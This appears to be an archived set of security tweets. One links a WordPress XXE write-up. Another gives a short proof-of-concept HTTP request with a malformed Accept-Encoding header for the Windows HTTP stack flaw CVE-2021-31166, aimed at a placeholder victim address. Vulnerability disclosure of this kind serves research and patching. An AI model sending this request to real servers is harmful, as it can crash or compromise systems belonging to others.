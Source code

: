 https://t.co/x48Pt2ZlL7

#BugBounty #XXE #WordPress #Vulnerability #CyberSecurity #PenTest #PenetrationTest #Writeup
</blockquote>

* https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>298</code></td>
<td>Favorites: <code>4845</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1395668830563618818 _at 2021-05-21, 09:12:34_**
<blockquote>
[CVE-2021-31166] MS HTTP Protocol Stack RCE #PoC

GET / HTTP/1.1
Host: [VictimIP]
Accept-Encoding: xx, aa, bb, , 

-&gt; Accept-Encoding: [unknown content-coding], [unknown content-coding], [unknown content-coding], [Null], [CRLF]

https://t.co/vP4DI6IAkm https://t.co/HSRaVupAeb
</blockquote>

* https://github.com/0vercl0k/CVE-2021-31166

<table><tr>
<td><img src="pictures/d50c96e4abd1490df760fc00d4a3863df516967db6637b1180fa680cb7ceed2d.jpg" alt="d50c96e4abd1490df760fc00d4a3863df516967db6637b1180fa680cb7ceed2d.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---